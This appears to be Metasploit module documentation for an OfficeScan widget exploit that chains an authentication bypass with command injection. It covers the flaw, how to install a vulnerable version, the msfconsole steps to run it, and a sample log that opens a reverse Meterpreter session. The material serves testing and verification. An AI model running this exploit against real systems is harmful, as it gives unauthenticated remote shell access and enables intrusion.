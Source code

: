 ## Vulnerable Application

This module exploits the authentication bypass and command injection vulnerability together. Unauthenticated users can execute a terminal command under the context of the web server user.

The Trend Micro OfficeScan product has a widget feature which is implemented with PHP. Talker.php takes ack and hash parameters but doesn't validate these values, which leads to an authentication bypass for the widget. Proxy.php files under the mod TMCSS folder take multiple parameters but the process does not properly validate a user-supplied string before using it to execute a system call. Due to combination of these vulnerabilities, unauthenticated users can execute a terminal command under the context of the web server user.

**Vulnerable Application Installation Steps**

1. Open following URL [http://downloadcenter.trendmicro.com/](http://downloadcenter.trendmicro.com/)
2. Find "OfficeScan" and click.
3. At the time of writing this documentation, you must see "osce-xg-win-en-gm-b1315.exe" next to Download button.
4. Click to the download button and complete installation of ISO.
5. Install the downloaded file on Windows operating system. (Tested with Windows 7)

If you don't see an affected version of OfficeScan, you can try to download it directly from following URL.

[http://download.trendmicro.com/products/officescan/XG/osce_xg_win_en_gm_b1315.exe](http://download.trendmicro.com/products/officescan/XG/osce_xg_win_en_gm_b1315.exe)

## Verification Steps

A successful check of the exploit will look like this:

- [ ] Start `msfconsole`
- [ ] `use exploit/windows/http/trendmicro_officescan_widget_exec`
- [ ] Set `RHOST`
- [ ] Set `LHOST`
- [ ] Run `check`
- [ ] **Verify** that you are seeing `The target is vulnerable.`
- [ ] Run `exploit`
- [ ] **Verify** that you are seeing `Authenticated successfully bypassed` value.
- [ ] **Verify** that you are getting `meterpreter` session.

## Scenarios

### Trend Micro OfficeScan 11 on Win7

```
msf exploit(trendmicro_officescan_widget_exec) > exploit 

[*] Started reverse TCP handler on 12.0.0.1:4444 
[*] Auto detection enabled. Trying to detect target system version.
[*] Target system selected : OfficeScan 11
[*] Exploiting authentication bypass
[+] Authenticated successfully bypassed.
[*] Generating payload
[*] Trigerring command injection vulnerability
[*] Sending stage (179267 bytes) to 12.0.0.176
[*] Meterpreter session 9 opened (12.0.0.1:4444 -> 12.0.0.176:49842) at 2017-10-09 21:57:29 +0300

meterpreter > sysinfo
Computer        : CME
OS              : Windows 7 (Build 7601, Service Pack 1).
Architecture    : x86
System Language : tr_TR
Domain          : WORKGROUP
Logged On Users : 1
Meterpreter     : x86/windows
meterpreter > 

```
